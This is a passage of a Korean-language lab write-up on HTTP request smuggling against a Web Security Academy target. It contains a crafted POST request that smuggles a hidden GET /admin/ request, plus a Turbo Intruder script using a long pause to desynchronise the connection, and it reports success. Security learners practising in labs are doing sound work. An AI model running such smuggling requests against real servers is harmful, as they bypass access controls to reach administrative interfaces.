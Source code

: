 5. 답대로 설정해본다. 

스머글링 요청 

```http
POST /resources HTTP/1.1
Host: 0ace005c047a8f7493536f750072005a.web-security-academy.net
Cookie: session=ySyYZqiST7hYQjTbhymPN7FvFroZOket
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Length: 89

GET /admin/ HTTP/1.1
Host: 0ace005c047a8f7493536f750072005a.web-security-academy.net


```

Turbo Intruder

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

6. 공격결과는 다음과 같다. 이번에는 성공했다. 두번째 요청(일반요청)의 응답이 `401 Unauthorized`가 돌아왔다! 이 응답 페이지의 HTML에는 `Admin interface only available to local users`라는 메세지가 적혀 있다. 
